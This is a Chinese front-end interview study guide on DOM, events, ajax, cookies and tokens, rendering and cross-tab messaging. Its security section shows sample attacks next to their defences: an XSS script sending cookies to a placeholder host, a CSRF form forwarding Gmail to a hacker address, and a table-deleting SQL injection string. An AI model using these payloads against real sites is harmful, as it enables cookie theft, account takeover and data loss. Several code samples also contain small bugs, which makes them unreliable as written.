



# DOM和BOM面试题

## DOM 的本质

讲 DOM 先从 html 讲起，讲 html 先从 XML 讲起。XML 是一种可扩展的标记语言，所谓可扩展就是它可以描述任何结构化的数据，它是一棵树！

```xml
<?xml version="1.0" encoding="UTF-8"?>
<note>
  <to>Tove</to>
  <from>Jani</from>
  <heading>Reminder</heading>
  <body>Don't forget me this weekend!</body>
  <other>
    <a></a>
    <b></b>
  </other>
</note>
```

HTML 是一个有既定标签标准的 XML 格式，标签的名字、层级关系和属性，都被标准化（否则浏览器无法解析）。同样，它也是一棵树。

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Document</title>
</head>
<body>
    <div>
        <p>this is p</p>
    </div>
</body>
</html>
```

我们开发完的 html 代码会保存到一个文档中（一般以`.html`或者`.htm`结尾），文档放在服务器上，浏览器请求服务器，这个文档被返回。因此，最终浏览器拿到的是一个文档而已，文档的内容就是 html 格式的代码。

但是浏览器要把这个文档中的 html 按照标准渲染成一个页面，此时浏览器就需要将这堆代码处理成自己能理解的东西，也得处理成 JS 能理解的东西，因为还得允许 JS 修改页面内容呢。

基于以上需求，浏览器就需要把 html 转变成 DOM，html 是一棵树，DOM 也是一棵树。对 DOM 的理解，可以暂时先抛开浏览器的内部因此，先从 JS 着手，即可以认为 DOM 就是 JS 能识别的 html 结构，一个普通的 JS 对象或者数组。

【附带一个 chrome Element 的截图】

## 获取 DOM 节点

```javascript
const div1 = document.getElementById('div1') // 元素
const divList = document.getElementsByTagName('div')  // 集合
console.log(divList.length)
console.log(divList[0])

const containerList = document.getElementsByClassName('.container') // 集合
const pList = document.querySelectorAll('p') // 集合
```

## prototype

DOM 节点就是一个 JS 对象，它符合之前讲述的对象的特征 ———— 可扩展属性

```javascript
const pList = document.querySelectorAll('p')
const p = pList[0]
console.log(p.style.width)  // 获取样式
p.style.width = '100px'  // 修改样式
console.log(p.className)  // 获取 class
p.className = 'p1'  // 修改 class

// 获取 nodeName 和 nodeType
console.log(p.nodeName)
console.log(p.nodeType)
```

## Attribute

property 的获取和修改，是直接改变 JS 对象，而 Attibute 是直接改变 html 的属性。两种有很大的区别

```javascript
const pList = document.querySelectorAll('p')
const p = pList[0]
p.getAttribute('data-name')
p.setAttribute('data-name', 'imooc')
p.getAttribute('style')
p.setAttribute('style', 'font-size:30px;')
```

## DOM 树操作

新增节点

```javascript
const div1 = document.getElementById('div1')
// 添加新节点
const p1 = document.createElement('p')
p1.innerHTML = 'this is p1'
div1.appendChild(p1) // 添加新创建的元素
// 移动已有节点。注意是移动！！！
const p2 = document.getElementById('p2')
div1.appendChild(p2)
```

获取父元素

```javascript
const div1 = document.getElementById('div1')
const parent = div1.parentNode
```

获取子元素

```javascript
const div1 = document.getElementById('div1')
const child = div1.childNodes
```

删除节点

```javascript
const div1 = document.getElementById('div1')
const child = div1.childNodes
div1.removeChild(child[0])
```

还有其他操作的API，例如获取前一个节点、获取后一个节点等，但是面试过程中经常考到的就是上面几个。

## DOM 性能

DOM 操作是昂贵的 —— 非常耗费性能。因此针对频繁的 DOM 操作一定要做一些处理。

例如缓存 DOM 查询结果

```js
// 不缓存 DOM 查询结果
for (let = 0; i < document.getElementsByTagName('p').length; i++) {
    // 每次循环，都会计算 length ，频繁进行 DOM 查询
}

// 缓存 DOM 查询结果
const pList = document.getElementsByTagName('p')
const length = pList.length
for (let i = 0; i < length; i++) {
    // 缓存 length ，只进行一次 DOM 查询
}
```

再例如，插入多个标签时，先插入 Fragment 然后再统一插入DOM

```js
const listNode = document.getElementById('list')

// 创建一个文档片段，此时还没有插入到 DOM 树中
const frag = document.createDocumentFragment()

// 执行插入
for(let x = 0; x < 10; x++) {
    const li = document.createElement("li")
    li.innerHTML = "List item " + x
    frag.appendChild(li)
}

// 都完成之后，再插入到 DOM 树中
listNode.appendChild(frag)
```

## 事件绑定

```javascript
const btn = document.getElementById('btn1')
btn.addEventListener('click', event => {
    console.log('clicked')
})
```

通用的事件绑定函数

```js
function bindEvent(elem, type, fn) {
    elem.addEventListener(type, fn)
}
const a = document.getElementById('link1')
bindEvent(a, 'click', e => {
    e.preventDefault() // 阻止默认行为
    alert('clicked')
})
```

## 事件冒泡

```html
<body>
    <div id="div1">
        <p id="p1">激活</p>
        <p id="p2">取消</p>
        <p id="p3">取消</p>
        <p id="p4">取消</p>
    </div>
    <div id="div2">
        <p id="p5">取消</p>
        <p id="p6">取消</p>
    </div>
</body>
```

对于以上 html 代码结构，点击`p1`时候进入激活状态，点击其他任何`p`都取消激活状态，如何实现？

```javascript
const p1 = document.getElementById('p1')
const body = document.body
bindEvent(p1, 'click', e => {
    e.stopPropagation() // 注释掉这一行，来体会事件冒泡
    alert('激活')
})
bindEvent(body, 'click', e => {
    alert('取消')
})
```

如果我们在`p1` `div1` `body`中都绑定了事件，它是会根据 DOM 的结构，来冒泡从下到上挨个执行的。但是我们使用`e.stopPropagation()`就可以阻止冒泡。

## 代理

我们设定一种场景，如下代码，一个`<div>`中包含了若干个`<a>`，而且还能继续增加。那如何快捷方便的为所有的`<a>`绑定事件呢？

```html
<div id="div1">
    <a href="#">a1</a>
    <a href="#">a2</a>
    <a href="#">a3</a>
    <a href="#">a4</a>
</div>
<button>点击增加一个 a 标签</button>
```

这里就会用到事件代理，我们要监听`<a>`的事件，但要把具体的事件绑定到`<div>`上，然后看事件的触发点，是不是`<a>`

```javascript
const div1 = document.getElementById('div1')
div1.addEventListener('click', e => {
    const target = e.target
    if (e.nodeName === 'A') {
        alert(target.innerHTML)
    }
})
```

那我们现在完善一下之前写过的通用事件绑定函数，加上事件代理

```javascript
function bindEvent(elem, type, selector, fn) {
    if (fn == null) {
        fn = selector
        selector = null
    }
    elem.addEventListener(type, e => {
        let target
        if (selector) {
            target = e.target
            if (target.matches(selector)) {
                fn.call(target, e)
            }
        } else {
            fn(e)
        }
    })
}
```

然后这样使用

```js
// 使用代理
const div1 = document.getElementById('div1')
bindEvent(div1, 'click', 'a', e => {
    console.log(this.innerHTML)
})

// 不使用代理
const a = document.getElementById('a1')
bindEvent(div1, 'click', e => {
    console.log(a.innerHTML)
})
```

最后，使用代理的优点

- 使代码简洁
- 减少浏览器的内存占用

## ajax fetch axios 的区别

### 分析

三者根本没有可比性，不要被题目搞混了。要说出他们的本质

### 传统 ajax

AJAX （几个单词首字母，按规范应该大写） - Asynchronous JavaScript and XML（异步的 JavaScript 和 XML）<br>
即使用 JS 进行异步请求，是 Web2.0 的技术基础，从 2005 年左右开始发起。<br>
所以，这里的 AJAX 就是一个称呼，一个缩写。

基于当时 JS 规范，异步请求主要使用 XMLHttpRequest 这个底层 API 。<br>
所以，有一道常考的面试题：请用 XMLHttpRequest 实现 ajax

```js
function ajax(url, successFn) {
    const xhr = new XMLHttpRequest()
    xhr.open("GET", url, false)
    xhr.onreadystatechange = function () {
        // 这里的函数异步执行，可参考之前 JS 基础中的异步模块
        if (xhr.readyState == 4) {
            if (xhr.status == 200) {
                successFn(xhr.responseText)
            }
        }
    }
    xhr.send(null)
}
```

### fetch

fetch 是一个原生 API ，它和 XMLHttpRequest 一个级别。

fetch 和 XMLHttpRequest 的区别
- 写法更加简洁
- 原生支持 promise

面试题：用 fetch 实现一个 ajax

```js
function ajax(url) {
    return fetch(url).then(res => res.json())
}
```

### axios

axios 是一个[第三方库](https://www.npmjs.com/package/axios)，随着 Vue 一起崛起。它和 jquery 一样（jquery 也有 ajax 功能）。

axios 内部可以用 XMLHttpRequest 或者 fetch 实现。

### 答案

- ajax 是一种技术称呼，不是具体的 API 和库
- fetch 是新的异步请求 API ，可代替 XMLHttpRequest
- axios 是第三方库

## HTMLCollection 和 NodeList 的区别

### HTMLCollection 和 NodeList

HTMLCollection 是 Element 集合，它由获取 Element 的 API 返回
- `elem.children`
- `document.getElementsByTagName('p')`

NodeList 是 Node 集合，它由获取 Node 的 API 返回
- `document.querySelectorAll('p')`
- `elem.childNodes`

### 答案

- HTMLCollection 是 Element 集合，NodeList 是 Node 集合
- Node 是所有 DOM 节点的基类，Element 是 html 元素的基类

### 划重点

注意 Node 和 Element 在实际 API 中的区别，如 `children` 和 `childNodes` 获取的结果可能是不一样的（如果子节点有 Text 或 Comment）

### 扩展：类数组

HTMLCollection 和 NodeList 都不是数组，而是“类数组”。转换为数组：

```js
// HTMLCollection 和 NodeList 都不是数组，而是“类数组”
const arr1 = Array.from(list)
const arr2 = Array.prototype.slice.call(list)
const arr3 = [...list]
```

## options 请求

使用 CORS 跨域请求时，经常会看到一个“多余”的 options 请求，之后才发送了实际的请求。



该请求就是为了检查服务端的 headers 信息，是否符合客户端的预期。所以它没有 body 的返回。

> 规范要求，对那些可能对服务器数据产生副作用的 HTTP 请求方法（特别是 GET 以外的 HTTP 请求，或者搭配某些 MIME 类型的 POST 请求），浏览器必须首先使用 OPTIONS 方法发起一个预检请求（preflight request），从而获知服务端是否允许该跨域请求。—— MDN

### 答案

options 请求就是对 CORS 跨域请求之间的一次预检查，检查成功再发起正式请求，是浏览器自行处理的。<br>
了解即可，实际开发中不用过于关注。

## 移动端 click 300ms 延迟

### 背景

智能手机开始流行的前期，浏览器可以点击缩放（double tap to zoom）网页。这样在手机上就可以浏览 PC 网页，很酷炫。


浏览器为了分辨 click 还是“点击缩放”，就强行把 click 时间延迟 300ms 触发。

### 初期解决方案

[FastClick](https://www.npmjs.com/package/fastclick) 专门用于解决这个问题。

```js
// FastClick 使用非常简单
window.addEventListener( "load", function() {
    FastClick.attach( document.body )
}, false )
```

它的内部原理是
- 监听 `touchend` 事件 （`touchstart` `touchend` 会先于 `click` 事件被触发）
- 通过 [DOM 自定义事件](https://developer.mozilla.org/zh-CN/docs/Web/API/CustomEvent) 模拟一个 click 事件
- 把 300ms 之后触发的 click 事件阻止掉

### 现代浏览器的改进

随着近几年移动端响应式的大力发展，移动端网页和 PC 网页有不同的设计，不用再缩放查看。<br>
这 300ms 的延迟就多余了，现代浏览器可以通过禁止缩放来取消这 300ms 的延迟。

- Chrome 32+ on Android
- iOS 9.3

```html
<meta name="viewport" content="width=device-width" />
```

### 答案

- 原因：点击缩放（double tap to zoom）网页
- 可使用 FastClick 解决
- 现代浏览器可使用 `width=device-width` 规避

## cookie 和 token 区别

### cookie

http 请求是无状态的，即每次请求之后都会断开链接。<br>
所以，每次请求时，都可以携带一段信息发送到服务端，以表明客户端的用户身份。服务端也也可以通过 `set-cookie` 向客户端设置 cookie 内容。<br>
由于每次请求都携带 cookie ，所以 cookie 大小限制 4kb 以内。


### cookie 作为本地存储

前些年大家还常用 cookie 作为本地存储，这并不完全合适。<br>
所以后来 html5 增加了 `localStorage` 和 `sessionStorage` 作为本地存储。

### cookie 跨域限制

浏览器存储 cookie 是按照域名区分的，在浏览器无法通过 JS `document.cookie` 获取到其他域名的 cookie 。

http 请求传递 cookie 默认有跨域限制。如果想要开启，需要客户端和服务器同时设置允许
- 客户端：使用 fetch 和 XMLHttpRequest 或者 axios 需要配置 `withCredentials`
- 服务端：需要配置 header `Access-Control-Allow-Credentials`

### 浏览器禁用第三发 cookie

现代浏览器都开始禁用第三方 cookie （第三方 js 设置 cookie），打击第三方广告，保护用户个人隐私。

例如一个电商网站 A 引用了淘宝广告的 js
- 你访问 A 时，淘宝 js 设置 cookie ，记录下商品信息
- 你再次访问淘宝时，淘宝即可获取这个 cookie 内容
- 再和你的个人信息（也在 cookie 里）一起发送到服务端，这样就知道了你看了哪个商品

### cookie 和 session

cookie 用途非常广泛，最常见的就是登录。

使用 cookie 做登录校验
- 前端输入用户名密码，传给后端
- 后端验证成功，返回信息时 set-cookie
- 接下来所有接口访问，都自动带上 cookie （浏览器的默认行为， http 协议的规定）

什么是 session ？
- cookie 只存储 userId ，不去暴露用户信息
- 用户信息存储在 session 中 —— session 就是服务端的一个 hash 表

### token

token 和 cookie 一样，也是一段用于客户端身份验证的字符串，随着 http 请求发送
- cookie 是 http 协议规范的，而 token 是自定义的，可以用任何方式传输（如 header body query-string 等）
- token 默认不会在浏览器存储
- token 没有跨域限制

所以，token 很适合做跨域或者第三方的身份验证。

### token 和 JWT

JWT === JSON Web Token

JWT 的过程
- 前端输入用户名密码，传给后端
- 后端验证成功，返回一段 token 字符串 - 将用户信息加密之后得到的
- 前端获取 token 之后，存储下来
- 以后访问接口，都在 header 中带上这段 token



### 答案

- cookie：http 规范；有跨域限制；可存储在本地；可配合 session 实现登录
- token：自定义标准；不在本地存储；无跨域限制；可用于 JWT 登录

## 连环问：session 和 JWT 比较，你更推荐哪个？

Session 优点
- 原理简单，易于学习
- 用户信息存储在服务端，可以快速封禁某个登录的用户 —— 有这方强需求的人，一定选择 Session

Session 的缺点
- 占用服务端内存，有硬件成本
- 多进程、多服务器时，不好同步 —— 一般使用第三方 redis 存储 ，成本高
- 跨域传递 cookie ，需要特殊配置

JWT 的优点
- 不占用服务器内存
- 多进程、多服务器，不受影响
- 不受跨域限制

JWT 的缺点
- 无法快速封禁登录的用户

总结：如果没有“快速封禁登录用户”的需求，建议使用 JWT 方式。

## 连环问：单点登录

### 基于 cookie

简单的，如果业务系统都在同一主域名下，比如 `wenku.baidu.com` `tieba.baidu.com` ，就好办了。
可以直接把 cookie domain 设置为主域名 `baidu.com` ，百度也就是这么干的。

### SSO

复杂一点的，滴滴这么潮的公司，同时拥有 `didichuxing.com` `xiaojukeji.com` `didiglobal.com` 等域名，种 cookie 是完全绕不开的。需要使用 SSO 技术方案


### OAuth2

上述 SSO 是 oauth 的实际案例，其他常见的还有微信登录、github 登录等。即，当设计到第三方用户登录校验时，都会使用 OAuth2.0 标准。
流程参考 [RFC 6749](https://tools.ietf.org/html/rfc6749)

## defer 和 async 属性有何区别

- `<script src="xxx.js">` 当解析到该标签时，会暂停 html 解析，并触发 js 下载、执行。然后再继续 html 解析。
- `<script async src="xxx.js">` js 下载和 html 解析可并行，下载完之后暂停 html 解析，执行 js 。然后再继续 html 解析。
- `<script defer src="xxx.js">` js 下载和 html 解析可并行。等待 html 解析完之后再执行 js 。



## 连环问：preload prefetch 的区别

- preload 表示资源在当前页面使用，浏览器会**优先**加载
- prefetch 表示资源可能在**未来的页面**（如通过链接打开下一个页面）使用，浏览器将在**空闲时**加载

```html
<head>
  <meta charset="utf-8">
  <title>JS and CSS preload</title>

  <!-- preload -->
  <link rel="preload" href="style.css" as="style">
  <link rel="preload" href="main.js" as="script">

  <!-- prefetch -->
  <link rel="prefetch" href="other.js" as="script">

  <!-- 引用 css -->
  <link rel="stylesheet" href="style.css">
</head>

<body>
  <h1>hello</h1>

  <!-- 引用 js -->
  <script src="main.js" defer></script>
</body>
```

## 连环问：dns-prefetch 和 preconnect 有什么作用？

一个 http 请求，第一步就是 DNS 解析得到 IP ，然后进行 TCP 连接。连接成功后再发送请求。

dns-prefetch 即 DNS 预获取，preconnect 即预连接。<br>
当网页请求**第三方**资源时，可以提前进行 DNS 查询、TCP 连接，以减少请求时的时间。

```html
<html>
  <head>
    <link rel="dns-prefetch" href="https://fonts.gstatic.com/">
    <link rel="preconnect" href="https://fonts.gstatic.com/" crossorigin>

  </head>
  <body>
      <p>hello</p>
  </body>
</html>
```

## 你所了解的前端攻击手段有哪些，该如何预防？

### XSS

Cross Site Scripting 跨站脚本攻击

用户通过某种方式（如输入框、文本编辑器）输入一些内容，其中带有攻击代码（JS 代码）。<br>
该内容再显示时，这些代码也将会被执行，形成了攻击效果。

```html
<!-- 例如用户提交的内容中有： -->
<script>
    var img = document.createElement('img')
    img.src = 'http://xxx.com/api/xxx?userInfo=' + document.cookie // 将 cookie 提交到自己的服务器
</script>
```

最简单的解决方式：替换特殊字符

```js
const newStr = str.replaceAll('<', '&lt;').replaceAll('>', '&gt;')
```

也可以使用第三方工具，例如
- https://www.npmjs.com/package/xss
- https://www.npmjs.com/package/escape-html

现代框架默认会屏蔽 XSS 攻击，除非自己手动开启
- Vue `v-html`
- React `dangerouslySetInnerHTML`

### CSRF

Cross-site request forgery 跨站请求伪造

请看下面的故事
- 小明登录了 Gmail 邮箱，收到一封广告邮件 “转让比特币，只要 998”
- 小明抱着好奇的心态点开看了看，发现是个空白页面，就关闭了

但此时，攻击已经完成了。黑客在这个空白页面设置了 js 代码，会让小明的邮件都转发到 `hacker@hackermail.com` 。<br>
因为小明已经登录了 Gmail ，有了 Gmail 的 cookie 。所以再去请求 Gmail API 就会带着 cookie ，就有可能成功。

```html
<form method="POST" action="https://mail.google.com/mail/h/ewt1jmuj4ddv/?v=prf" enctype="multipart/form-data"> 
    <input type="hidden" name="cf2_emc" value="true"/> 
    <input type="hidden" name="cf2_email" value="hacker@hakermail.com"/> 
    .....
    <input type="hidden" name="irf" value="on"/> 
    <input type="hidden" name="nvp_bu_cftb" value="Create Filter"/> 
</form> 
<script> 
    document.forms[0].submit();

    // PS：有些是 post 请求，有些是 get 请求
    //     get 请求如果用 img.src 还可以规避跨域，更加危险
</script>
```

邮件经常用来接收验证码，这是很危险的事情。<br>
当然了，后来 Gmail 修复了这个漏洞。但新的故事仍在不断发生中。

CSRF 的过程
- 用户登录了 `a.com` ，有了 cookie
- 黑客引诱用户访问 `b.com` 网页，并在其中发起一个跨站请求 `a.com/api/xxx`
- `a.com` API 收到 cookie ，误以为是真实用户的请求，就受理了

CSRF 的预防
- 严格的跨域请求限制
- 为 cookie 设置 `SameSite` 不随跨域请求被发送 `Set-Cookie: key1=val1; key2=val2; SameSite=Strict;`
- 关键接口使用短信验证码等双重验证

### 点击劫持 Clickjacking

小明被诱导到一个钓鱼网站，点击了一个按钮，其实已经关注了慕课网双越老师。因为他可能已经登录了慕课网。<br>
这可以是关注，也可以是付款转账等其他危险操作。


点击劫持的原理：黑客在自己的网站，使用隐藏的 `<iframe>` 嵌入其他网页，诱导用户按顺序点击。

使用 JS 预防

```js
if (top.location.hostname !== self.location.hostname) {
    alert("您正在访问不安全的页面，即将跳转到安全页面！")
    top.location.href = self.location.href
}
```

增加 http header `X-Frame-Options:SAMEORIGIN` ，让 `<iframe>` 只能加载同域名的网页。

PS：点击劫持，攻击那些需要用户点击操作的行为。CSRF 不需要用户知道，偷偷完成。

### DDoS

Distributed denial-of-service 分布式拒绝服务

通过大规模的网络流量淹没目标服务器或其周边基础设施，以破坏目标服务器、服务或网络正常流量的恶意行为。<br>
类似于恶意堵车，妨碍正常车辆通行。

网络上的设备感染了恶意软件，被黑客操控，同时向一个域名或者 IP 发送网络请求。因此形成了洪水一样的攻击效果。<br>
由于这些请求都来自分布在网络上的各个设备，所以不太容易分辨合法性。

DDoS 的预防：软件层面不好做，可以选择商用的防火墙，如[阿里云 WAF](https://www.aliyun.com/product/waf?spm=5176.7967425.J_8058803260.34.3d017748VkTlhL)。

PS：阮一峰的网站就曾遭遇过 DDoS 攻击 https://www.ruanyifeng.com/blog/2018/06/ddos.html

### SQL 注入

普通的登录方式，输入用户名 `zhangsan` 、密码 `123` ，然后服务端去数据库查询。<br>
会执行一个 sql 语句 `select * from users where username='zhangsan' and password='123'` ，然后判断是否找到该用户。

如果用户输入的是用户名 `' delete from users where 1=1; --` ，密码 `'123'`<br>
那生成的 sql 语句就是 `select * from users where username='' delete from users where 1=1; --' and password='123'`<br>
这样就会把 `users` 数据表全部删除。

防止 SQL 注入：服务端进行特殊字符转换，如把 `'` 转换为 `\'`

### 答案

- XSS
- CSRF
- 点击劫持
- DDoS
- SQL 注入

## 从输入 url 到显示页面的完整过程

### 特别注意

现在浏览器经过多年发展和优化，加载和渲染机制已经非常复杂，我们只能讲解基本的流程。不可较真细节。

### 步骤

- 网络请求
- 解析
- 渲染页面

### 网络请求

- DNS 解析，根据域名获得 IP 地址
- 建立 TCP 连接 “三次握手”
- 发送 http 请求
- 接收请求响应，获得网页 html 代码

获取了 html 之后，解析过程中还可能会继续加载其他资源：js css 图片等。<br>
静态资源可能会有强缓存，加载时要判断。


### 解析

> html css 等源代码是字符串形式，需要解析为特定的数据结构，才能被后续使用。

过程
- html 构建 DOM 树
- css 构建 CSSOM（即 style tree）
- 两者结合形成 Render tree （包括尺寸、定位等）


css 包括：
- 内嵌 css `<style>`
- 外链 css `<link>`

解析到 `<script>` 加载，并有可能修改 DOM 树和 render tree 。
- 内嵌 js
- 外链 js

PS：加载和执行 `<script>` 的情况比较多，如有 `defer` `async` 属性，就不一样。

解析到 `` 等媒体文件，也要并行加载。加载完成后再渲染页面。

综上，为了避免不必要的情况，要遵守以下规则
- css 尽量放在 `<head>` 中，不要异步加载 css
- js 尽量放在 `<body>` 最后，不要中途加载、执行 js
- `` 等媒体文件尽量限制尺寸，防止渲染时重绘页面

### 渲染页面

通过 render tree 绘制页面。

绘制完成之后，还要继续执行异步加载的资源
- 异步的 css ，重新渲染页面
- 异步的 js ，执行（可能重新渲染页面）
- 异步加载的图片等，可能重新渲染页面（根据图片尺寸）

最后页面渲染完成。

### 答案

- 网络请求
    - DNS 解析
    - TCP 连接
    - HTTP 请求和响应
- 解析
    - DOM 树
    - render tree
- 渲染页面
    - 可能重绘页面

## 连环问：什么是重绘 repaint 和重排 reflow ，有何区别

页面渲染完成之后，随着异步加载和用户的操作，会随时发生 repaint 或者 reflow 。例如
- 各种网页动画
- modal dialog 弹框
- 页面元素的新增、删除和隐藏

结论：重排的影响更大
- 重绘 repaint ：某些元素的外观被改变，但尺寸和定位不变，例如：元素的背景色改变。
- 重排 reflow ：重新生成布局，重新排列元素。如一个元素高度变化，导致所有元素都下移。

重绘不一定重排，但重排一定会导致重绘。<br>
所以，要尽量避免重排。

- 集中修改样式，或直接使用 `class`
- DOM 操作前先使用 `display: none` 脱离文档流
- 使用 BFC ，不影响外部的元素
- 对于频繁触发的操作（`resize` `scroll` 等）使用节流和防抖
- 使用 `createDocumentFragment` 进行批量 DOM 操作
- 优化动画，如使用 `requestAnimationFrame` 或者 CSS3（可启用 GPU 加速）

## 连环问：触发 css BFC 的条件

BFC - Block Formatting Context 块格式化上下文
- 根节点 html
- 设置 float `left` `right`
- 设置 overflow `auto` `scroll` `hidden`
- 设置 display `inline-block` `table` `table-cell` `flex` `grid`
- 设置 position `absolute` `fixed`

## 网络多标签之间如何通讯？

例如打开两个 chrome 标签，一个访问列表页，一个访问详情页。在详情页修改了标题，列表页也要同步过来。

### webSocket

通过 webSocket 多页面通讯，无跨域限制。

### localStorage

同域的两个页面，可以通过 localStorage 通讯。A 页面可以监听到 B 页面的数据变化。

```js
// list 页面
window.addEventListener('storage', event => {
    console.log('key', event.key)
    console.log('newValue', event.newValue)
})

// detail 页面
localStorage.setItem('changeInfo', 'xxx')
```

### SharedWorker

Javascript 是单线程的，而且和页面渲染线程互斥。所以，一些计算量大的操作会影响页面渲染。<br>

[WebWorker](https://developer.mozilla.org/zh-CN/docs/Web/API/Web_Workers_API/Using_web_workers) 可以 `new Worker('xxx.js')` 用来进行 JS 计算，并通过 `postMessage` 和 `onmessage` 和网页通讯。<br>
但这个 worker 是当前页面专有的，不得多个页面、iframe 共享。

PS：WebWorker 专用于 JS 计算，不支持 DOM 操作。

[SharedWorker](https://developer.mozilla.org/zh-CN/docs/Web/API/SharedWorker) 可以被同域的多个页面共享使用，也可以用于通讯。<br>
源码参考 msg-sharedWork-list.html 和 msg-sharedWork-detail.html 。注意，worker 中的日志需要 `chrome://inspect` 中打开控制台查看。

PS：注意浏览器兼容性，不支持 IE11

### 答案

- webSocket 需要服务端参与，但不限制跨域
- localStorage 简单易用
- SharedWorker 本地调试不太方便，考虑浏览器兼容性

## 连环问：iframe 通讯

除了上述几个方法，iframe 通讯最常用 [window.postMessage](https://developer.mozilla.org/zh-CN/docs/Web/API/Window/postMessage) ，支持跨域。

通过 `window.postMessage` 发送消息。注意第二个参数，可以限制域名，如发送敏感信息，要限制域名。

```js
// 父页面向 iframe 发送消息
window.iframe1.contentWindow.postMessage('hello', '*')

// iframe 向父页面发送消息
window.parent.postMessage('world', '*')
```

可监听 `message` 来接收消息。可使用 `event.origin` 来判断信息来源是否合法，可选择不接受。

```js
window.addEventListener('message', event => {
    console.log('origin', event.origin) // 通过 origin 判断是否来源合法
    console.log('child received', event.data)
})
```
